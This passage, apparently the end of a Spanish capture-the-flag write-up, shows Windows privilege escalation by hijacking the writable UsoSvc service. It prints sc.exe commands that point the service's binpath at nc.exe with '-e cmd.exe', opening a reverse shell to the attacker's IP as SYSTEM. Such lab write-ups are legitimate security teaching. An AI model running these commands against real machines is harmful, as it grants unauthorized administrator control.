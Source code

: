 ![](https://lh5.googleusercontent.com/fUxunHqvb1nlkrS-m9l4wfSeB3VcqchWjC_wbRNdDulkn9FO9RLMKXpozA9BCSiyKJHrmiyPv-FIoL6yMDu7w_BIMI1TBwH1VRuXGPM20f5-OsgNEpWPPadyMgqKBK2_8pOv_3pN)

Como podemos observar tenemos acceso de escritura al servicio `UsoSvc` para poder cambiar `BinPath` y ejecutar lo que yo quiera como Administrador.

Para obtener una shell como System montaremos un servidor con python compartiendo el binario `nc.exe` y lo descargaremos en la máquina remote.
![](https://lh6.googleusercontent.com/1kJLTCDff2QP1Vpu1lPJxfQpWhFUrT3ZhMlMvV0nfmkHLK8GmSdcV11ObVJchgN82go_icb-HbbEllQIIzfpS3a-IWnNfMpKltezZ4I8AnViL-PjdeLFZb0RqwMFm25ujlmp66n-)
Y para finalizar solo detenemos el servicio, modificamos la binpath y ejecutamos nuevamente el servicio.

```
PS C:\Temp> sc.exe stop UsoSv
PS C:\Temp> sc.exe config UsoSvc binpath= "C:\Temp\nc.exe 10.10.14.28 1234 -e cmd.exe"
PS C:\Temp> sc.exe start UsoSvc
```

![](https://lh6.googleusercontent.com/R-dtUWa_lKQxmn05EojKi3L-bJhnwFocva2ZgX8XiUh5euF1V5A_8zrcCgwkY47IcSX-7I1Uff7-LMMz_Kl-unblvoPdCQQSpKHSlHZkTmVN06-whuMgF46C0GaXx35ZNuIeAlvI)

**¡¡Somos Administradores!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

#### **¡Muchas Gracias!**


